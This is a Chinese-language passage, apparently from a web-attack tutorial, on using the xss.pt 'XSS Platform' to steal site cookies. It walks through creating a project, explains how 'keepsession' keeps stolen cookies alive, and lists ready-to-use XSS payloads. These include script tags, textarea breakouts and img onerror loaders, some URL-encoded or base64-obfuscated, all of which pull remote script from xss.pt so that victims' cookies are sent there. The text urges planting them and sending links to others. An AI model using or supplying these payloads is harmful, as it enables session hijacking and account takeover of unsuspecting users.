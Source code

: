 #### **3.1.2.1.****使用工具**

**注意：这里网上有许多搭建的****XSS Platform****，如果一个不能用可以换别的用，不一定要用我给的这个，甚至可以自己搭建一个****XSS Platform****。不过下面的过程是我基于这个网站使用的，都大同小异**  
1.

先使用XSS Platform：https://xss.pt/，点击“创建项目”。

打勾“默认模块”，该模块是获取cookie值的。

无keepsession

keepsession

无keepsession和keepsession的区别:

keepsession的意思是保持连接，也就是当获取到目标网站的cookie后，保持这个cookie，因为网站cookie可能是有时效的，比如时效为10分钟，那么当接收到这cookie后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择keepsession后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择keepsession后，XSS Platform将会一直在后台刷新cookie，也就是保持这个cookie的有效性，反之，无keepsession就是不保持连接。

那么keepsession到底是怎么样实现的呢？看了下代码发现很简单，平台会自动的隔一段时间，遍历整个keepsession表里面的数据。随后循环对目标服务器进行一次带cookie的请求。这样就实现了维持会话的功能了。

下面的其他模块，各自代表着xss的其他种攻击，具体可在“配置代码”这步选完进去后，在左边的“公共模块”里点击，查看模块信息

以下为部分截图，只要将其中一种代码插入怀疑出现XSS的地方，发给别人，如果有人点击该地址，我们就可在"项目内容"中查看其cookie值

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

图片插件一：  https://xss.pt/GFLXp.jpg

<Img sRC=https://xss.pt/GFLXp.jpg>

  

一、

1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

  

2.标准代码

</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

  

二、IMG 标签

1.

</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.pt%2FGFLX%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

  

2.<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='https://xss.pt/GFLX';>

  

3.通杀火狐谷歌360

<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9wNzBlPycrTWF0aC5yYW5kb20oKQ=='))>

  
